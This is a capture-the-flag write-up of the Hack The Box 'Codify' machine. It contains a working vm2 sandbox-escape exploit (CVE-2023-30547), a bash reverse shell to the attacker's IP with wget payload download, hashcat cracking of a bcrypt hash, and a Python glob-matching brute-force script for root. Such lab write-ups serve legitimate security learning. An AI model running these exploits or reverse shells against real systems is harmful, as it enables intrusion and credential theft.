








### Enumeration
#### Recon
**Started to Skiming the website**

Heading over to the IP address redirected me to http://codify.htb however it is not pointed anywhere and gave me error so I udpate my host file using the following command

```bash
sudo vim /etc/hosts
```

```
127.0.0.1	localhost
127.0.1.1	tadashi

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters


# Hack The Box
10.10.11.239 codify.htb
```

Now reloading the website loaded up the site 




### Intial Foothold

Heading over to the http://codify.htb/about, I noticed the line (The vm2 library is a widely used and trusted tool for sandboxing JavaScript) and googled for the
vulnerability 



Reading few blogs I found an awesome POC : [CVE-2023-30547 - Exploitation - Node.js vm2 module code execution RCE](https://vk9-sec.com/cve-2023-30547exploitation-node-js-vm2-module-code-execution-rce/)


Head over to http://codify.htb/editor, And run the following code to escape the sandbox.

```Js
//The vm2 library provides a secure JavaScript VM (virtual machine) for Node.js.
// The VM class allows you to create an isolated environment to run JavaScript code.
const {VM} = require("vm2");

//This line creates a new instance of the VM class.
//This instance will be used to run the JavaScript code in a sandboxed environment.
const vm = new VM();

// This code is a self-contained JavaScript snippet that is wrapped as a string.
// It creates an object (err), defines a Proxy (proxiedErr),
// and then uses a combination of throw and catch to execute a payload that invokes the execSync method from the child_process module.
// The payload seems to exploit the ability to manipulate the stack trace (Error().stack) and utilizes Proxy to trigger a sequence of code execution.
const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('<command>'); // replace <command> with your OS command
}`

// This line executes the JavaScript code stored in the code variable within the virtual machine created earlier.
// The result of vm.run(code) is logged to the console.
console.log(vm.run(code));
```

Create a file over your system naming **shell.sh** ```bash -i >& /dev/tcp/<tun0 IP address>/<port> 0>&1```

Now create a python3 server to upload the file to the server.

```bash 
python3 -m http.server ```

Update the `.execSync('<command>')` update the `<command>`

```bash
wget http://<tun0 IP>:8000/shell.sh```
This will upload/Download the file to the server

Now run TCP listener 

```bash
nc -lvnp <port>
```


Update the `.execSync('<command>')` update the `<command>`
```bash
bash shell.sh
``` 

This will run the execute the reverse shell 


#### Setting up the foothold 

Once you get the file, Head over to (/var/www/contact) [Websites are running from this directory]
```bash
cd /var/www/contact
```




Now run strings comand on the file **tickets.db**
```bash 
strings tickets.db
```




You will notice the username and hashed password

```bash
username = joshua
hashPassword = $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Looking for the hash type it seems like it's bcrypt



Time to bruteforce 

save hash over a file let's say **hashPassword.txt**

```bash
hashcat -m 3200 hashPassword.txt /usr/share/wordlists/rockyou.txt
```

Once the hashcat finishes it's job you can find out the password which is **spongebob1**
```bash
hashcat -m 3200 hashPassword.txt /usr/share/wordlists/rockyou.txt  --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Time to get upgrade our access 

```bash
┌──(tadashi㉿theM7)-[~/Documents/HackTheBox/Codify/hash]
└─$ ssh joshua@codify.htb                         
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 01:38:22 PM UTC 2024

  System load:                      0.0
  Usage of /:                       63.6% of 6.50GB
  Memory usage:                     21%
  Swap usage:                       0%
  Processes:                        246
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:a531


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joshua@codify:~$ 
```

### First Flag

just cat user.txt

```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt
3c717fed1bc3e958ea89ce0d43fae965
joshua@codify:~$ 
```

Now time to get root Access

### Privilege Escalation


Now run the command 
```bash 
sudo -l 
```
to check I **joshua** can run any command as root fortunately we found a command and that's

```bash
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Analyzing the **mysql-backup.sh** script it seems like it is running a backup feature where it checks $DB_PASS and $USER_PASS

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

As you can notice the if condition 

```bash 
if [[ $DB_PASS == $USER_PASS ]]; then
```
if $DB_PASS == $USER_PASS, it's comparing DB_PASS with USER_PASS however it's not taking an exact value (not comparing just string) however we may eascape the comparision by provide an wildcard 



You may notice the double quote over both side it's used so that the pattern could be avoided but in out it's exact opposite



As you can see this way we can use the partial pattern matching.

Now let's test it over the server.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
joshua@codify:~$ 
```
Yes It worked I have just provided "*" over the password field

```bash
Enter MySQL password for root: * #[Enter]
```

Now let's find out the root password

#### Bruteforcing to get the root password


```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Python script to get the root access.


Note the code 
```python
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
```
It simply runs the pattern comparision until it get's the complete password


Now As I have saved the code over the server time to bruteforce.


```bash
joshua@codify:~$ python3 exploit.py
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
joshua@codify:~$ 
```

As it finishes the bruteforcing we get out root password  **kljh12k3jhaskjh12kjh3**

#### Root Flag


```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cd /
root@codify:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@codify:/# cat /root/root.txt 
8558ae9d77f91a58878bb2472703142e
root@codify:/# 
```

Noice we completed the lab.